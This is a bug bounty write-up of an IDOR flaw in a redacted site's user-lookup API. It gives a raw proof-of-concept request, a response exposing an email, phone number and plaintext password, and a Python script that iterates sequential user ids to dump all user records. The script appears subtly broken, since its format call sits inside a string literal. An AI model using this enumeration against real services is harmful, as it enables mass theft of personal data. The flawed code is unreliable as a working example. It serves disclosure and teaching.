 ```yaml
---
title: The story of how I was able to leak all user data
author: Thunder
date: 2023-07-04 09:15:00
categories: [Bug Bounty]
tags: [bugbounty, hacking, python, idor]
image:
  path: https://i.pinimg.com/originals/a5/d1/f6/a5d1f61e89bdce061817723044f8a757.gif
---
```


## Overview

Missing authentication leads to user data leakage, That's the sentence that describes the problem in this article. Authentication is basically the most important part of security when building an application because it keeps unauthenticated people from accessing anything sensitive or trying to become a privileged user.

## How do I catch a bug?
I performed basic reconnaissance techniques on the target and performed activities like a normal user. The site didn't have many features and forms, I tested a few things messing with business logic, breaking authentication and session validation all seemed safe until when I checked every request in the proxy history using [BurpSuite](https://portswigger.net/burp) which made it easy to reproduce the issue. I found a **POST** api request to the path **/api/landing-page/get-user** 

## Proof of Concept

### Request

```text
POST /api/landing-page/get-user HTTP/1.1
Host: redacted.com
Origin: https://redacted.com
Accept: */*
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

guid=&code=0&data={"user_id":"<ID_USER_HERE>"}
```

### Response

```text
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
pragma: no-cache
cache-control: no-cache, no-store
content-length: 425
x-frame-options: SAMEORIGIN

{
  "code": "0",
  "info": "Successfully Get User Results",
  "data": {
    "id": 1,
    "nama": "My User",
    "email": "myuser@gmail.com",
    "msisdn": "121212122",
    "institusi": "",
    "password": "myuserpassword",
    "create_dtm": "2021-07-07T02:13:13.000Z",
    "nonce": "6603",
    "status_otp": 1,
    "status_otp_info": "{\"code\":\"0\",\"info\":\"OTP code sent successfully.\",\"data\":[]}",
    "status_otp_count": 0,
    "last_login": "2023-01-19T02:00:35.000Z"
  }
}
```

## Leaking all user data
By using any registered user id can leak registered user data this is a kind of vulnerability [Insecure direct object reference (IDOR)](https://portswigger.net/web-security/access-control/idor) - _is a type of access control vulnerability that arises when applications use user-supplied input to access objects directly._ I knew that the user ids used were not random but sequential so I wrote python code to leak every registered user's data on the site.

### Python code

```python
import requests
import os

for i in range(10):
    r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
    if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

Performs a loop to generate a number that will be used to guess the id of each user.

```python
for i in range(10):
```

Uses the [requests](https://pypi.org/project/requests/) library to make a request to the specified URL along with the data in the body.

```python
r = requests.post("https://redacted.com/api/landing-page/get-user", data='guid=&code=0&data={"user_id":"{}".format(i)} ', headers={'User-Agent': f'Mozilla/5.0 (X11; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/{i}', 'Content-Type': 'application/x-www-form -urlencoded'})
```

Performs filtering on the response data to check if there is valid user data otherwise it will forward the next request.

```python
if len(r.text) > 350:
        print(r.text + os.linesep)
    else:
        pass
```

## $$$
![image](/assets/img/writeup/2023-07-04/Screenshot_2023-07-04_01-04-06.png)

## Conclusion
Check the incoming traffic including some API requests that you may have missed. Then try to create a good report so that the security team can reproduce the findings as well as create an exploit script that helps to show and exacerbate the impact. This can also be a plus while practicing coding.

That's it, Thanks for reading - <a href="https://x.com/thd3r">@thd3r</a>